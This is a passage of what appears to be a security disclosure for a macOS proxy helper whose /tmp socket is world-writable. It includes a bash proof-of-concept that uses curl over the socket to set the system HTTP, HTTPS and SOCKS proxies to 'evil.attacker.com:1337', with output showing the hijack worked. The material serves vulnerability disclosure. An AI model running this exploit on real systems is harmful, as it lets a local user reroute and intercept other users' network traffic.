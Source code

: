 Output:
```
srw-rw-rw-  1 root  wheel  0 Aug  5 22:48 /tmp/mihomo-party-helper.sock
```

<img width="2000" height="830" alt="party2" src="https://github.com/user-attachments/assets/f5467c21-e0f2-40a9-a927-fc10738a83b9" />

World-writable socket means any local user can interact with it.

## Proof-of-Concept

**Proof-of-Concept Script**

```sh
#!/usr/bin/env bash
  
SOCKET_PATH="/tmp/mihomo-party-helper.sock"
ATTACKER_HOST="evil.attacker.com"
ATTACKER_PORT="1337"
BYPASS="localhost,127.0.0.1"
  
# Stuur een verzoek naar de helper via curl+socket
curl --unix-socket "$SOCKET_PATH" \
  -X POST http://localhost/global \
  -H "Content-Type: application/json" \
  -d "{\"host\":\"$ATTACKER_HOST\",\"port\":\"$ATTACKER_PORT\",\"bypass\":\"$BYPASS\"}"
```

This command configures the system to send all traffic via the attacker’s proxy.

Output proof: verify that the system proxy was changed:


```sh
swayzgl1tzyyy@SwayZGl1tZyyys-Mac /tmp % networksetup -listallnetworkservices
  
An asterisk (*) denotes that a network service is disabled.
Ethernet
```

```
swayzgl1tzyyy@SwayZGl1tZyyys-Mac /tmp % networksetup -getwebproxy Ethernet
  
Enabled: Yes
Server: evil.attacker.com
Port: 1337
Authenticated Proxy Enabled: 0
```

```sh
swayzgl1tzyyy@SwayZGl1tZyyys-Mac /tmp % scutil --proxy
  
<dictionary> {
  ExceptionsList : <array> {
    0 : localhost
    1 : 127.0.0.1
  }
  FTPPassive : 1
  HTTPEnable : 1
  HTTPPort : 1337
  HTTPProxy : evil.attacker.com
  HTTPSEnable : 1
  HTTPSPort : 1337
  HTTPSProxy : evil.attacker.com
  ProxyAutoConfigEnable : 0
  ProxyAutoDiscoveryEnable : 0
  SOCKSEnable : 1
  SOCKSPort : 1337
  SOCKSProxy : evil.attacker.com
```